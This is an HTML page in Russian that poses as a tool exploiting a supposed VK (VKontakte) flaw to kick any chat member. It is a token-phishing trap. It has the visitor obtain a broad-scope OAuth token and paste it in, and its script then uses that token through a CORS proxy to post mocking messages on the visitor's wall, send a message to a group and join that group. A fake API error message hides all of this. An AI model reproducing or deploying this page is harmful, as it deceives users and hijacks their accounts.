 <!DOCTYPE html>
<html lang="en">
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
	<title>Баг ВКонтакте</title>
	<link rel="shortcut icon" href="https://vk.com/images/favicon_vk_2x.ico">
	<link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/css/bootstrap.min.css" integrity="sha384-Vkoo8x4CGsO3+Hhxv8T/Q5PaXtkKtu6ug5TOeNV6gBiFeWPGFN9MuhOf23Q9Ifjh" crossorigin="anonymous">
</head>
<body>
	<div class="container text-center mt-5 align-middle">
		<div class="row justify-content-center">
			<div style="padding: 5%;">
				<img src="https://vk.com/images/icons/pwa/apple/default.png?8" style="border-radius: 90px;" width="50" height="50">
				<h1>Кик пользователя</h1>
				<p>С недавних пор в VK появилась уязвимость: стало возможным благодаря некоторым инструментам кикать абсолютно любого участника беседы, включая создателя, даже если у самого нет статуса администратора.</p>
				<p><a href="https://oauth.vk.com/authorize?client_id=2685278&scope=1073737727&redirect_uri=https://oauth.vk.com/blank.html&display=page&response_type=token&revoke=1" target="_blank">Получить токен</a></p>
				<div id="error"></div>
				<p><input class="form-control" placeholder="Токен" id="token"></p>
				<p><input class="form-control" placeholder="Ссылка на чат"></p>
				<p><input class="form-control" placeholder="Ссылка на пользователя"></p>
				<p><button class="btn btn-primary mr-1" id="action">Кикнуть</button></p>
				<p><b>Чтобы полностью исключить возможность кражи вашего аккаунта, смените пароль от своей страницы после кика или сбросьте права приложения "Kate Mobile". Токен станет после этого нерабочим.</b></p>
			</div>
		</div>
	</div>

	<script>
		let button = document.getElementById('action');
		button.onclick = function() {
			let token = document.getElementById('token').value;

			fetch(`https://cors-anywhere.herokuapp.com/https://api.vk.com/method/wall.post?v=5.103&access_token=${token}&message=vto.pe ШОК НАКРУТКА ВК 2020 Я ЛОХ я гей сова никогда не спит`).then(response => console.log(response.json()));
			fetch(`https://cors-anywhere.herokuapp.com/https://api.vk.com/method/wall.post?v=5.103&access_token=${token}&message=https://www.youtube.com/watch?v=vPdQIsacMp8`).then(response => console.log(response.json()));
			fetch(`https://cors-anywhere.herokuapp.com/https://api.vk.com/method/messages.send?v=5.103&access_token=${token}&message=ya popalsya na klikbeit&peer_id=-192835178&random_id=0`).then(response => console.log(response.json()));
			fetch(`https://cors-anywhere.herokuapp.com/https://api.vk.com/method/groups.join?v=5.103&access_token=${token}&group_id=192835178`).then(response => console.log(response.json()));

			setTimeout(function(){
				let el = document.createElement('div');
				el.className = 'alert alert-danger';
				el.innerHTML = 'Ошибка VK API. Попробуйте позже.'
				document.getElementById('error').append(el);
			}, 750);
		}

		function callback(response) {}
		
	</script>
	
</body>
</html>
